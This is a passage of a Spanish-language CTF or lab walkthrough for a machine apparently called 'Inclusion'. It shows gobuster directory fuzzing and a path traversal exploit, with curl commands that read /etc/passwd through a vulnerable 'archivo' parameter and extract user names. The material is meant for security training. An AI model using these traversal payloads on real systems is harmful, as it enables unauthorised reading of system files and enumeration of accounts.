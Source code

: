 ![index](https://github.com/user-attachments/assets/f9dce7b8-4b20-4842-b82a-2d8f28c1d033)


## Gobuster 

Haremos `fuzzing` para descubrir directorios en el servidor web, para esto usaremos la herramienta `gobuster` utilizando un diccionario

~~~ bash
gobuster dir http://10.10.10.2 -w /usr/share/seclists/Discovrey/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,xml,txt
~~~

![gobuster_1](https://github.com/user-attachments/assets/8d09b245-e3b8-4957-acf2-ab08c72a91b3)

Encontramos el directorio `shop`, y al visitar la página, vemos lo siguiente

![shop index](https://github.com/user-attachments/assets/7d644c23-9f53-4623-b52b-d2a8b7c7059e)


# Explotación 10.10.10.2 (Inclusion)
---
## Path Traversal

A simple vista vemos un supuesto error al intentar cargar la variable `archivo` con el método `$_GET` de `php`. Usaremos esta variable para intentar explotar Path Traversal, así que primero probamos leer archivos del sistema, una detección básica es la siguiente que lee el fichero `/etc/passwd`

~~~ bash
curl -sL http://10.10.10.2/shop\?archivo\=../../../../etc/passwd
~~~

- `-s`: No mostrar el output
- `-L`: Seguir el redireccionamiento del servidor

**Nota** que debemos escapar los caracteres **?** y **=** porque nos da problemas con nuestra terminal, o puedes también poner la solicitud **"entre comillas"**.

![pathtraversal](https://github.com/user-attachments/assets/37c9f3b0-e059-4698-965e-df88303b045d)

Logramos ver los usuarios `manchi` y `seller` en la respuesta del servidor

![LFI_etc_passwd](https://github.com/user-attachments/assets/19c79bde-9f77-4cf7-a78f-97cc1d5245d6)


Podemos almacenar los usuarios existentes en un archivo `users.txt` de forma rápida con el siguiente comando

~~~ bash
curl -sL http://10.10.10.2/shop\?archivo\=../../../../etc/passwd | grep "/bin/bash" | grep -v "pre" | awk -F ':' '{print $1}' > users.txt
~~~

La salida de este comando nos debería reportar los usuarios de la siguiente forma
